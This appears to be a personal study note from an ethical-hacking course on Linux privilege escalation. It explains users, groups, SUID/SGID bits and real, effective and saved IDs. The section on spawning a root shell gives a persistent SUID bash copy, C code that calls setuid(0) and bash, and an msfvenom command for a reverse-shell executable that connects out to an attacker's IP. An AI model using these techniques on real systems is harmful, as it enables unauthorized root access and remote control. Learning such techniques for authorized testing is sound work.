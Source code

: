 
2024-06-13 15:33

Source: #privesc 

Tags: 

All Privilege Escalation are effectively examples of access control violations.
#### Permissions in Linux
##### User 
- Users are identified by an integer user ID (UID). The “root” user account is a special type of account in Linux. It has an UID of 0, and the system grants this user access to every file
##### Group
- By default, a user’s primary group has the same name as their user account
##### File & Directory  
- All files & directories have a single owner and a group.
##### Special Permissions
- **setuid (SUID)** bit When set, files will get executed with the privileges of the file owner.
- **setgid (SGID)** bit When set on a file, the file will get executed with the privileges of the file group. 
- When set on a directory, files created within that directory will inherit the group of the directory itself
##### Viewing Permission
```
$ ls -l /bin/date
-rwxr-xr-x 1 root root 60416 Apr 28 2010 /bin/date
```
- above the file is owned by root and belongs to the root group 
- The first 10 characters indicate the permissions set on the file or directory.
- The first character simply indicates the type (e.g. '-' for file, 'd' for directory)
- The remaining 9 characters represent the 3 sets of permissions (owner, group, others).
- Each set contains 3 characters, indicating the read (r), write (w), and execute (x) permissions. 
- SUID/SGID permissions are represented by an 's' in the execute position
##### User ID's 
- each user has 3 user IDs in Linux (real, effective, and saved)
	- Real ID is who they actually are (the ID defined in /etc/passwd).
	- Effective ID is normally equal to their real ID, however when executing a process as another user, the effective ID is set to that user’s real ID. The effective ID is used in most access control decisions to verify a user, and commands such as `whoami` use the effective ID
	- Saved ID is used to ensure that SUID processes can temporarily switch a user’s effective ID back to their real ID and back again without losing track of the original effective ID
- `id` command will print real and effective uid/gid
- the command below will show the real, effective, saved, and file system user / group IDs of the current process (i.e. our shell)
```
# cat /proc/$$/status | grep "[UG]id"
```








#### Spawning Root shell

use the following methods to spawn a root shell in situations where commands can be executed as root-
##### rootbash SUID

To spawn a root shell, create a copy of the /bin/bash executable file (eg. rename it [[rootbash]]), make sure it is owned by the root user, and has the SUID bit set.
A root shell can be spawned by simply executing the rootbash file with the -p command line option. The benefit of this method is it is persistent (once you run the exploit, rootbash can be used multiple times)

##### Custom Executables

There may be instances where some root process executes another process which you can control. In these cases, the following C code, once compiled, will spawn a Bash shell running as root:  
```
int main() { 
	setuid(0); 
	system("/bin/bash -p"); 
} 

Compile using:
$ gcc -o <name> <filename.c>
```

##### msfvenom

If a reverse shell is preferred, [[msfvenom]] can be used to generate an executable (.elf) file: 
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```
This reverse shell can be caught using netcat or Metasploit’s own multi/handler module.

##### Native Reverse Shells

There are multiple ways to spawn [[revshell]] natively on many Linux distributions. A good tool for suggesting these is: https://github.com/mthbernardes/rsg 


#### Privilege Escalation Tools




### References

[Linux Privilege Escalation Tutorial: Become an Ethical Hacker | Udemy](https://www.udemy.com/course/linux-privilege-escalation/)